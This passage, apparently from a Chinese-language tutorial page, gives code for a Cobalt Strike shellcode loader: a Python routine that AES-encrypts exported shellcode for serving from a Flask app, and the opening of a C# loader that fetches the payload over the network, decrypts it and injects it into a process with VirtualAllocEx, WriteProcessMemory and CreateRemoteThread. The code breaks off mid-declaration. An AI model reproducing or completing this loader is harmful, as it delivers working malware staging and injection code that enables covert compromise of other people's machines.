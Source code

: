 ```python
    def AES_Encrypt(key):
        BLOCK_SIZE = 32  # Bytes
        f = open('./shellcode.txt', 'r')	#从CS导出的C#格式的shellcode，放在Fask应用根目录
        shellcode = f.read()
        cipher = AES.new(add_to_32(key), AES.MODE_ECB)
        encrypted = cipher.encrypt(pad(shellcode.encode('utf-8'),BLOCK_SIZE))
        encrypted_text = str(base64.encodebytes(encrypted), encoding='utf-8')
        #加密结果用base64编码
        return encrypted_text
    return app
```



# 二、C#编写Loader

**客户端：Loder从网络加载Shellcode（随机生成key去请求shellcode） -> 解密 -> 创建进程 运行上线**

```c#
//WLoader C#
using System;
using System.Security.Cryptography;
using System.IO;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;
using System.Collections.Generic;
using System.Linq;
using System.Diagnostics;

namespace Wloader
{
    class Program
    {
        // Used to Load Shellcode into Memory:
        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        [DllImport("kernel32.dll")] //声明API函数
        public static extern int VirtualAllocEx(
            IntPtr hProcess, //进程的句柄.该函数在此进程的虚拟地址空间内分配内存
            int lpAddress,//该指针为要分配的页面区域指定所需的起始地址
            UInt32 dwSize,//要分配的内存区域的大小，以字节为单位
            UInt32 flAllocationType,//内存分配的类型 ,MEM_COMMIT为指定的保留内存页面分配内存
            UInt32 flProtect);//对要分配的页面区域的内存保护,PAGE_EXECUTE_READWRITE
        //该地址必须是页面属性为PAGE_EXECUTE_READWRITE的页面）或者其他宿主进程能执行地方（如共享内存映射区）

        [DllImport("kernel32.dll")]
        public static extern int WriteProcessMemory(
            IntPtr hProcess,    //要修改的过程存储器的句柄
            int lpBaseAddress, //指向要写入数据的指定进程中的基地址的指针
            byte[] lpBuffer, //指向缓冲区的指针，该缓冲区包含要在指定进程的地址空间中写入的数据
            int nSize,//要写入指定进程的字节数 
            int lpNumberOfBytesWritten);//指向变量的指针，该变量接收传输到指定进程中的字节数;(可选)为NULL则忽略

        [DllImport("kernel32.dll")]
        public static extern int GetProcAddress(int hwnd, string lpname);

        [DllImport("kernel32.dll")]
        public static extern int GetModuleHandleA(string name);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateRemoteThread(
            IntPtr hProcess,//目标进程的句柄
```